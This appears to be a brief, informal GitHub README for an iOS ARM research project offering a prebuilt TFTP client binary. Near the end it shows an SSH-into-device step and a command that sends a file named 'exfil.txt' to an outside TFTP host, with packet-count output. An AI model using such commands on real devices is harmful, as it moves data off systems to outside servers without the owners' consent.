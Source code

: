 # ios-arm-research
iOS, ARM, Research

Updated Jan 25 2021

You read and you are here.. 

The file named 'client' is a Binary ARM file for TFTP Command Line on iOS and its signed with my Developer ID.

usage: ./client [-p port] [-h hostname] -f filename

Reminder: Its a TFTP CLI Executable, so you need a TFTP Server and a few other things to make it all work.. like a thingy...

Comment: the compiled file may be really helpful since you read the Post and now you probably want to ghost along to the same point..

none of that stuff was working and I just copy pasta the tftp client so could get that gzfile and see wtf is happening..

Putting it all together.. 
you'll be ssh into /dev/thingy

./client -h tftp.xss.cx -p 69 -f exfil.txt

...
...
Packet '143966' sent
Packet '143967' sent
Packet '143968' sent
Packet '143969' sent
FIN '143970' sent
Goodbye




